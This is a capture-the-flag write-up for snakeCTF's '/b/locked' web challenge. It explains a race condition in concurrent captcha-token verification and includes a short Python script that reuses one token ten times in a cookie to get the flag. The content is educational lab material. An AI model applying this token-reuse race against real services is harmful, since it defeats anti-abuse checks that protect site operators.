


# [Web] /b/locked
**Final Solves**: 67



---

## Solution

When launching the challenge, we're greeted by an ExpressJS web server that asks us to solve 10 hard captchas in under 10 seconds.



Since this is a white-box web security challenge, the natural first step was to inspect the source code. The most interesting part is the `/protected` route. This **verifies all submitted captchas** and ensures that they were solved in the last 10 seconds before returning the flag. The route validates the 10 captcha tokens using a **Javascript Promise**, so that all checks run concurrently. 


```javascript
const verificationPromises = solvedCaptchas.map(token => {
    return new Promise((resolve, reject) => {
        db.get("SELECT hash, salt, solvedAt FROM validHashes WHERE id = ?", [token], async (err, storedHashData) => {
            if (err) {
                console.error("Error retrieving hash data:", err);
                return resolve();
            }

               if (!storedHashData) {
                console.error("Token not found or already used:", token);
                return resolve();
                }

            const { hash, salt, solvedAt } = storedHashData;

            try {
                const recomputedHash = await new Promise((resolveHash, rejectHash) => {
                    crypto.pbkdf2(token, salt, 100000, 64, "sha512", (err, derivedKey) => {
                        if (err) rejectHash(err);
                        resolveHash(derivedKey.toString('hex'));
                    });
                });

                if (recomputedHash === hash) {
                    solvedTimes.push(solvedAt);
                    db.run("DELETE FROM validHashes WHERE id = ?", [token], (err) => {
                        if (err) {
                            console.error("Error deleting hash:", err);
                        }
                        resolve();
                    });
                } else {
                    console.error("Hash mismatch for token:", token);
                    resolve();
                }
            } catch (e) {
                console.error("Error verifying token:", e);
                resolve();
            }
        });
    });
});

await Promise.all(verificationPromises);
```


This implementation introduces a subtle **race condition**: Each token is first checked for validity, then a hash is computed (which takes some time), and finally, the token is marked invalid to prevent reuse. <br/>
Because the checks happen at the same time, **the invalidation step doesn't complete before the other checks start**. This means we can **reuse the same token** 10 times, tricking the server into thinking 10 different captchas were solved.

***My script:***
```python
import requests

BASE_URL = "https://520930d91fbe773eaae88164df93112b.blocked.challs.snakectf.org"
TOKEN = input('token ')[6:-6]

cookies = {
    "solvedCaptchas": ",".join([TOKEN] * 10) # Crafting our 🍪
}

resp = requests.get(f"{BASE_URL}/protected", cookies=cookies) # Retrieving our 🚩

print("Response:")
print(resp.text)
```

***Final flag:***
`snakeCTF{4n0n_byp4553d_th3_f1lt3r_7470985510630620}`

During the game, we also found out it could be solved in another **unintended** way. As the system only noted the time when the captcha's response was sent, a player could just solve 10 captchas manually, write down the Captcha's ID and solution, and submit everything at the same time.
